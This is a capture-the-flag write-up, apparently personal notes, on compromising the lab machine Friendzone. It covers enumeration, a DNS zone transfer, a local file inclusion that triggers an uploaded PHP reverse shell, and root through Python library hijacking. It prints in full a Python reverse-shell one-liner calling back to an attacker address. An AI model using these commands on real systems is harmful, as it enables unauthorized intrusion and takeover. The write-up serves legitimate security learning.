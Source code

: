 ![[Pasted image 20240720105026.png]]

**Ping**
![[Pasted image 20240704130949.png]]

**Nmap Scans**
```
mapit 10.10.10.123
```

Nmap Default Scan
![[Pasted image 20240704130959.png]]

Nmap Service and Script Scan
![[Pasted image 20240704131220.png]]
![[Pasted image 20240704131247.png]]
![[Pasted image 20240704131315.png]]

Nmap All port Scan
![[Pasted image 20240704131330.png]]

On Port 80 http://10.10.10.123
![[Pasted image 20240704131542.png]]

Smb Enumeration using Smbclient
```
smbclient -U '' -L \\\\10.10.10.123\\\\
```
![[Pasted image 20240704132217.png]]

if you can't access the share, play with slashes
```
smbclient \\\\10.10.10.123\\Development\\
```
![[Pasted image 20240704132254.png]]
Nothing in Development

Can't get cmd for Files

Share general
```
smbclient \\\\10.10.10.123\\general\\
```
![[Pasted image 20240704132408.png]]

Will analyse the file creds.txt
![[Pasted image 20240704132507.png]]
**admin:WORKWORKHhallelujah@#**

Will try this with ftp first
![[Pasted image 20240704132613.png]]
Didn't Work...!

Gobuster Scan
```
gobuster dir -u http://10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240704132641.png]]
We can see something interesting 

On http://10.10.10.123/robots.txt
![[Pasted image 20240704132740.png]]
hahahahahaha....:)

On http://10.10.10.123/wordpress
![[Pasted image 20240704135220.png]]
nothing here as well

But there is dns Port 53 is open, will find is there anymore domain names are there, because we have password for admin , we don't know where to use it.

Use this link for dns Enumeration:https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

We can already see on nmap Scan, there is a domain name friendzone.red, will add this to our hosts file 
![[Pasted image 20240704140854.png]]
![[Pasted image 20240704140914.png]]

Will use dig to dig DNS
```
dig axfr @10.10.10.123 friendzone.red
```
![[Pasted image 20240704140929.png]]
Now we have lot of Domain names

Added all newly found domain names
![[Pasted image 20240704141032.png]]

On https://friendzone.red/
![[Pasted image 20240704141102.png]]

On https://administrator1.friendzone.red/
![[Pasted image 20240704141215.png]]

After login, it say's visit /dashboard.php
![[Pasted image 20240704141302.png]]
https://administrator1.friendzone.red/dashboard.php
![[Pasted image 20240704141409.png]]

On https://uploads.friendzone.red/
![[Pasted image 20240704141524.png]]

Nothing on hr
![[Pasted image 20240704141614.png]]

Uploaded a simple jpg file
![[Pasted image 20240704141726.png]]
![[Pasted image 20240704141715.png]]

Now will follow this
![[Pasted image 20240704141847.png]]


Will jump to Initial foothold....!

Will use the default 
https://administrator1.friendzone.red/dashboard.php?%20image_id=a.jpg&pagename=timestamp
![[Pasted image 20240704145305.png]]
I think pagename is vulnerable to LFI

We have already seen that the smb shares
![[Pasted image 20240704145438.png]]
So there might be chances for other two shares are in /etc

Will check that..!


Will put php reverse shell
![[Pasted image 20240704145835.png]]
Will trigger rev.php

It worked, but without extension https://administrator1.friendzone.red/dashboard.php?%2520image_id=a.jpg&pagename=/etc/Development/rev
![[Pasted image 20240704150013.png]]

Will check our listener
![[Pasted image 20240704150031.png]]

Upgraded my shell using python
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240704150253.png]]


**User.txt**
![[Pasted image 20240704150158.png]]



Will Jump to Privilege Escalation.....!

In have launched pspy and found this
![[Pasted image 20240704151846.png]]
reporter.py is run by root periodically

Will check that
![[Pasted image 20240704152046.png]]
It imports OS, I have already seen os.py while running linpeas.sh

![[Pasted image 20240704152149.png]]
So it is writable

Ok then will repalce the os.py with our reverse shell Oneliner
![[Pasted image 20240704152254.png]]

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' >> os.py
```
![[Pasted image 20240704153430.png]]
Added this at the end

And waited for shell as root and got it
![[Pasted image 20240704153515.png]]

**Root.txt**
![[Pasted image 20240704153605.png]]




Done with Friendzone....:)
